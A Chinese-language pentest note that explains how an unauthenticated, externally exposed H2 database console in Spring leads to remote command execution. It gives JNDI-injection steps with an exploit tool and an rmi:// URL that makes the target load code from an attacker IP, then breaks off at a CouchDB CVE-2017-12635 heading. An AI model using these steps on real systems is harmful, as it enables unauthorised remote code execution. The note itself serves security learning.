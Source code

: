 <img src="图片\Snipaste_2023-02-08_16-48-51.png" alt="Snipaste_2023-02-08_16-48-51" style="zoom:80%;" />

H2 database是一款Java内存数据库，多用于单元测试。H2 database自带一个Web管理页面，在Spirng开发中，如果我们设置如下选项，即可允许外部用户访问Web管理页面，且没有鉴权

```
spring.h2.console.enabled=true 
spring.h2.console.settings.web-allow-others=true
```

利用这个管理页面，我们可以进行JNDI注入攻击，进而在目标环境下执行任意命令。

```
1、下载JNDI-Injection-Exploit
https://github.com/welk1n/JNDI-Injection-Exploit

2、生成执行RMI Payload-URL
-C 执行命令 -A 服务器地址
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C touch /tmp/success -A 47.94.236.117

3、填入URL提交执行
javax.naming.InitialContext
rmi://47.94.236.117:1099/kd1rns
```

## CouchDB-权限绕过配合RCE-漏洞

默认端口：5984

Apache CouchDB是一个开源数据库，专注于易用性和成为"完全拥抱web的数据库"。它是一个使用JSON作为存储格式，JavaScript作为查询语言，MapReduce和HTTP作为API的NoSQL数据库。应用广泛，如BBC用在其动态内容展示平台，Credit Suisse用在其内部的商品部门的市场框架，Meebo，用在其社交平台（web和应用程序）

-CouchDB-权限绕过-CVE-2017-12635

